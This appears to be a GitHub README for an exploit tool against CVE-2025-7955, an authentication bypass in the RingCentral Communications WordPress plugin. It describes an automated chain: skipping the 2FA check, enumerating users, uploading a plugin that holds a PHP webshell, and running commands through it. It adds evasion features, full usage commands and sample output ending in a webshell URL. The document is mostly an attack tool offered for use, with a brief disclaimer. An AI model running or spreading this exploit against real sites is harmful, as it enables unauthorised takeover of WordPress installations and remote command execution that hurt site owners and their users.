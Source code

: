 # CVE-2025-7955
RingCentral Communications 1.5 - 1.6.8 - Missing Server‑Side Verification to Authentication Bypass via ringcentral_admin_login_2fa_verify Function

# 🚨 CVE-2025-7955 | RingCentral Communications WordPress Exploit

---

## 📝 Vulnerability Overview

**CVE:** CVE-2025-7955  
**Affected Plugin:** RingCentral Communications (WordPress)  
**Affected Versions:** 1.5 – 1.6.8  
**CVSS Score:** 9.8 (Critical)  
**Type:** Authentication Bypass (Missing Server-Side Verification)  

> _The RingCentral Communications plugin for WordPress is vulnerable to an Authentication Bypass due to improper validation within the `ringcentral_admin_login_2fa_verify()` function. Versions **1.5 to 1.6.8** allow unauthenticated attackers to log in as any user simply by supplying identical bogus codes._

---

## ⚡ Script Functionality

This exploit automates the entire attack chain for **CVE-2025-7955**. It is designed to:

- **Bypass authentication**: The script logs into WordPress as any user (usually admin) without needing a password, exploiting the vulnerable 2FA endpoint.
- **Auto-discover usernames**: If the username is not provided, the script will attempt to enumerate it via the WordPress REST API (`/wp-json/wp/v2/users/ID`).
- **Extract required tokens**: Automatically fetches the CSRF protection nonce needed for plugin uploads.
- **Upload a malicious plugin (webshell)**: Once authenticated, the script uploads a ZIP plugin containing a PHP webshell.
- **Command execution via webshell**: After successful upload, the script demonstrates code execution by running `whoami` through the shell and prints the output.
- **Stealth & evasion features**: Uses random delays, a rotating User-Agent list, and basic WAF/captcha detection to bypass simple protections.

---

## 🚀 Usage

1. **Prepare your malicious plugin**  
   Ensure you have your malicious plugin ZIP file (default: `Nxploit.zip`) in the same directory as the script.

2. **Run the exploit:**  
   ```bash
   python3 CVE-2025-7955.py -u http://target/wordpress [-user admin] [-id 1] [-z Nxploit.zip]
   ```
   - `-u`, `--url`      : **(required)** Target WordPress site URL
   - `-user`, `--username` : *(optional)* Username to log in as (auto-discovered if omitted)
   - `-id`, `--id_admin`   : *(default: 1)* User ID (admin is usually ID 1)
   - `-z`, `--zip`         : *(default: Nxploit.zip)* Path to malicious plugin ZIP

3. **Example:**  
   ```bash
   python3 CVE-2025-7955.py -u http://target/wordpress
   ```
   or specify username/ID:
   ```bash
   python3 CVE-2025-7955.py -u http://target/wordpress -user admin -id 1
   ```

---

## ✅ Expected Successful Output

```
888b    888                   888          d8b 888                 888 
8888b   888                   888          Y8P 888                 888 
88888b  888                   888              888                 888 
888Y88b 888 888  888 88888b.  888  .d88b.  888 888888 .d88b.   .d88888 
888 Y88b888 `Y8bd8P' 888 "88b 888 d88""88b 888 888   d8P  Y8b d88" 888 
888  Y88888   X88K   888  888 888 888  888 888 888   88888888 888  888 
888   Y8888 .d8""8b. 888 d88P 888 Y88..88P 888 Y88b. Y8b.     Y88b 888 
888    Y888 888  888 88888P"  888  "Y88P"  888  "Y888 "Y8888   "Y88888 
                     888                                               
                     888                                               
                     888                                               
CVE-2025-7955 Exploit By : Nxploited 

[*] Using User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
[*] Attempting login as: admin (ID: 1)
[+] Login successful!
[+] Nonce: 661e57f2e4
[*] Uploading malicious plugin...
[+] Plugin uploaded successfully!
[*] Executing: whoami
----------------------------------------
daemon
----------------------------------------
[+] Shell: http://target/wordpress/wp-content/plugins/Nxploit/index.php?cmd=COMMAND
```

---

## 🎯 Key Features

- **No password required**: Exploits a logic flaw to fully bypass authentication.
- **Automatic enumeration**: Can extract usernames and IDs via public API.
- **Hands-free exploitation**: From login to webshell upload to command execution, all steps are automated.
- **Bypass basics**: Random delays, header spoofing, and basic protection detection.
- **Modular**: Easily modify the plugin payload or add features as needed.

---

## ⚠️ Disclaimer

This tool is **for authorized security testing and educational use only**.  
Unauthorized use against systems you do not own or have explicit permission to test is **illegal** and unethical.  
The author assumes **no responsibility** for any misuse or damages caused by this script.

---

*By: Khaled Alenazi (Nxploited)*
